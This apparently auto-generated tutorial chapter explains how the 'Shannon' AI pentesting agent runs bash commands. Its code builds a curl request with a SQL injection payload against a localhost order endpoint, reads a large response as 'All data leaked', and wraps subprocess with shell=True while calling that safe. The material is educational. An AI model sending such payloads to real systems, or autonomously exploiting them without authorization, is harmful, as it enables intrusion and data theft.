

# Chapter 9: Tool Use - Bash Execution

Welcome to the final chapter of this tutorial! In the previous chapter, [Tool Use - Task Tracking](08_tool_use___task_tracking.md), our agent created a precise checklist of steps to exploit the target.

The agent knows *what* to do. Now, it must actually *do* it.

## Why do we need Bash Execution?

Up until now, our agent has been "thinking"—reading files, making plans, and updating lists. It hasn't actually touched the target server since the initial scan.

To perform an attack, the agent needs to interact with the outside world. In the hacker's toolkit, the most common way to do this is via the **Command Line** (or Bash).

### The Use Case
Our agent needs to prove that the endpoint `/api/order` is vulnerable to SQL Injection.
To do this, it needs to send a specific web request containing a "payload" (malicious code).
The agent will use a common tool called `curl` to send this request and check the response.

**The Goal:** Execute a command like this:
`curl "http://localhost:33081/api/order?order_id=1' OR 1=1"`

## Key Concepts

1.  **Bash (Shell)**: The command-line interface of the operating system. It allows us to run powerful programs by typing text commands.
2.  **Curl**: A command-line tool used to send data to or get data from a server. Think of it like a web browser without the graphics.
3.  **Subprocess**: A programming concept where a main program (Python) launches a smaller, separate program (Bash) to do a specific job, and then waits for the result.

## How to Use the Tool

The agent has a tool called `execute_bash`. This tool allows the Python agent to type directly into the system terminal.

### Step 1: Construct the Command
First, we need to build the command string. We are going to use a classic SQL Injection payload: `OR 1=1`. This trick asks the database to return results if "1 equals 1" (which is always true).

```python
target = "http://localhost:33081/api/order"
# The payload forces the database to say "True"
payload = "1' OR 1=1" 

# We build the full command string
# curl is the tool, and we wrap the URL in quotes
command = f"curl '{target}?order_id={payload}'"

print(f"Command prepared: {command}")
```
*Output:* `Command prepared: curl 'http://localhost:33081/api/order?order_id=1' OR 1=1'`

### Step 2: Execute the Command
Now, we ask the agent to run this command using its tool. This is the moment the request actually travels over the network to the target.

```python
# The agent passes the string to the terminal
response = agent.tools.execute_bash(command)

# Let's see how long the response is
print(f"Server responded! Response length: {len(response)} characters")
```

*Output:*
```text
Server responded! Response length: 4500 characters
```

### Step 3: Analyze the Result
If the attack worked, the server should return *every* order in the database (because 1=1 is true), resulting in a much larger response than normal.

```python
# A normal response might be 500 characters. 
# Our response is 4500.
if len(response) > 1000:
    print("SUCCESS: The injection worked! All data leaked.")
else:
    print("FAILURE: The server blocked the attack.")
```

*Output:* `SUCCESS: The injection worked! All data leaked.`

## Under the Hood: What happens?

How does Python talk to the Command Line?

### The Workflow

Imagine the Agent is a CEO sitting in an office. The Terminal is a messenger waiting outside.



1.  **Agent**: "I need to run this command."
2.  **Tool**: Opens a window to the operating system.
3.  **OS**: Runs the `curl` program, which talks to the website.
4.  **Tool**: Captures the text that `curl` prints out and hands it back to the Agent.

### Internal Implementation

Let's look at `shannon/tools/bash_executor.py`. Python has a built-in library called `subprocess` specifically for this task.

```python
import subprocess

class BashTool:
    def execute_bash(self, command):
        # 1. Run the command safely
        result = subprocess.run(
            command, 
            shell=True,          # Run as a shell command
            capture_output=True, # Catch the text output
            text=True            # Return strings, not bytes
        )
        
        # 2. Return the standard output (stdout)
        return result.stdout
```

**Explanation:**
1.  **`subprocess.run(...)`**: This tells Python to pause, run an external program, and wait for it to finish.
2.  **`shell=True`**: This allows us to use shell features (like pipes or quotes), effectively simulating a real terminal.
3.  **`capture_output=True`**: Without this, the result would print to the screen but the Agent wouldn't be able to "read" it into a variable.

## Conclusion

Congratulations! You have completed the **Shannon** tutorial series.

Let's look back at what you have built. You have an agent that can:
1.  **Initialize** and focus on a target.
2.  **Read** complex files (Recon, Analysis) to understand the environment.
3.  **Identify** vulnerabilities based on evidence.
4.  **Plan** a multi-step attack using a Task Tracker.
5.  **Execute** real-world commands to prove the vulnerability.

The Agent has successfully confirmed the SQL Injection using `curl`. In a real scenario, the agent would now loop back to its [Task Tracking](08_tool_use___task_tracking.md) list, mark step 1 as complete, and move on to extracting the database tables.

You now understand the core loop of an automated security agent: **Gather Info -> Plan -> Execute -> Analyze**.

Thank you for following the Shannon project tutorial!

---

Generated by [Code IQ](https://github.com/adityasoni99/Code-IQ)